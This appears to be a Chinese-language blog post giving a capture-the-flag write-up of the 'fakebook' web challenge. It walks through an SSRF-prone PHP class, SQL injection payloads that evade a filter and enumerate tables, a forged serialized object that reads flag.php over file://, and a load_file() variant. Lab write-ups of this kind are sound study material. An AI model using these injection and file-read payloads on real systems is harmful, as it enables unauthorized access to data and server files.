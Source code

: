 +++
title = 'fakebook'
date = 2024-09-16T18:03:22+08:00
draft = false
categories = ['CS', 'sec', 'wp']
+++

## 题目

![](../../../../img/Pasted%20image%2020240916180603.png)

---
## 分析

### join页面提交blog （URL）

点进 join页面，发现是一个提交 blog的框

![](../../../../img/Pasted%20image%2020240916180708.png)

- 对 blog 试了一些数字都提示 Blog is not valid.


### dirmap 扫描后台

用 dirmap 扫网站发现有 user.php.bak 文件
- 似乎可以扫出来有 flag.php，但是 dirmap 没扫出来

查看源码
```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        # 显然有 ssrf 漏洞
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```


可以通过在 blog输入框上传以下 payload 访问 flag.php文件

```
file:///var/html/flag.php
```


直接在 join页面上传是不行的，从服务器的备份文件可以看出这个表达式被正则表达式过滤了

![](../../../../img/Pasted%20image%2020240916180731.png)
- 返回 Blog is not valid.


### SQLi

再进入成功上传的页面，发现 no参数有 SQL注入漏洞

- 上传成功的规则见源码的正则表达式

闭合测试，发现是数字型注入
```
# 正确
?no=1 and 1=1

# 错误
?no=1' and 1=1 #
```

order by测试，发现是4列
```
?no=-1 order by 4
```

`union select` 被过滤，用 `/**/` 绕过
```
?no=-1 union/**/select 1,2,3,4
```

![](../../../../img/Pasted%20image%2020240916180744.png)


爆表名：users
```
?no=-1 union/**/select 1, group_concat(table_name),3,4 from information_schema.tables where table_schema=database();
```

![](../../../../img/Pasted%20image%2020240916180755.png)


爆列名：可疑data
```
?no=-1 union/**/select 1, group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```

![](../../../../img/Pasted%20image%2020240916180802.png)


爆data列
```
?no=-1 union/**/select 1, group_concat(data),3,4 from users
```

![](../../../../img/Pasted%20image%2020240916180808.png)


### 从序列化字符串注入

```
O:8:"UserInfo":3:{s:4:"name";s:2:"11";s:3:"age";i:11;s:4:"blog";s:5:"sh.sh";}
```

从SQLi得到的序列化字符串可以猜测：
- join时服务器序列化blog数据
- 回显到页面时再反序列化，也就是查询的时候

所以，尝试通过对构造的序列化字符串进行查询来访问 flag.php 文件

序列化构造：
```
O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

查询 payload：
```
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:19;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
- data字段在第4位，所以放在第4位

得到 flag
![](../../../../img/Pasted%20image%2020240916180818.png)
- flag{ce4753a0-ec46-4fc1-81eb-ad8a2eeaf5b2}

---
## 解2

load_file("/var/www/html/flag.php") 读文件

```
no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4
```


---
## 原理

- SSRF 漏洞
```
$output = curl_exec($ch);
```

- SQLi `/**/` 绕过

- `file://` 读取本地文件












